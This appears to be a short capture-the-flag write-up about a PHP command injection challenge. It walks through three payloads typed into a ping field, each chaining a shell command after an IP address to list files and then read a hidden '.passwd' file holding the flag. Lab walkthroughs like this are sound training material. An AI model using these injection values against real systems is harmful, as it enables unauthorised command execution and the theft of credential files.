



# 🧩Challenge : PHP command injection

# 🔍 Description
- The main goal of this challenge is to inject a command PHP after the ping
- For that we try to find a file with the name flag or password or something like that

⚙️ Exploitation
```bash
1.1.1.1;ls
```

- So we can see one file index.php after that we try to find a hidden file 
```bash
1.1.1.1;ls -a
```

- We see a file .passwd we cat that and we have the flag
```bash
1.1.1.1;cat .passwd
```

